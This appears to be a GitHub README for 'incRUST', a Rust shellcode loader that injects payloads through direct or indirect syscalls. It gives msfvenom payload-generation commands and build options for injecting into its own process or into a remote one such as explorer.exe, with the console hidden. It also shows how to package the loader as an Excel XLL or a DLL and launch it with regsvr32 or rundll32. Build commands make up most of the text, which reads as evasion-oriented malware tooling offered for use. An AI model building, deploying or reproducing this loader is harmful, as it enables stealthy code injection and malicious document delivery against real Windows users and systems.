 # incRUST, a rust loader using direct ot indirect syscalls !


(!) indirect syscall in x86 could be not working on some systems becausz of different syscall stubs (https://gist.github.com/wbenny/b08ef73b35782a1f57069dff2327ee4d)


# Payload Test generation
## x86
```shell
msfvenom -f bin -p windows/exec cmd=calc exitfunc=thread -f base64 -o payload-x86.b64
```

## x86_64
### base 64
```shell
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f base64 -o payload-x64.b64
```
### bin
```shell
msfvenom -f bin -p windows/x64/exec cmd=calc exitfunc=thread -f raw -o payload-x64.bin
```


# Build Options
## Payload
### Specifying the file containing the payload
--config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'"

### Type of payload
- bin
--features=payload_bin
- base64
--features=payload_bin



## injection target
- current process
```shell
--features=inject_self
```
- remote by process id
```shell
--features=inject_proc_id
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_ID.value='10360'"
```
- remote process by name
```shell
--features=inject_proc_name
```
The environment variable should be set at compile time :
```shell
--config "env.PROCESS_NAME.value='explorer.exe'"
```

## injection type
- direct syscall
```shell
--features=syscall_direct
```
- indirect syscall
```shell
--features=syscall_indirect
```

# Build Samples
## x64
- executable
```shell
cargo build --bin incrust --target x86_64-pc-windows-gnu --release --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

- excel library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=xll,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```
then rename incrustlib.dll into .xll

- regsvr library
```shell
cargo build --lib --target x86_64-pc-windows-gnu --release --features=regsvr,no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x64.b64'" --config "env.PROCESS_NAME.value='explorer.exe'" 
```

To fire : 
```cmd
regsvr32 /s .\incrustlib.dll
```
or
```cmd
rundll32.exe .\incrustlib.dll,DllRegisterServer
```


## x86
```shell
cargo build  --bin incrust --target i686-pc-windows-gnu --release --features=no_console,payload_b64,inject_self,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" 
```

```shell
cargo build --bin incrust --target i686-pc-windows-gnu --features=no_console,payload_b64,inject_proc_name,syscall_indirect --config "env.PAYLOAD_FILE_NAME.value='payload-x86.b64'" --config "env.PROCESS_NAME.value='explorer.exe'"
```

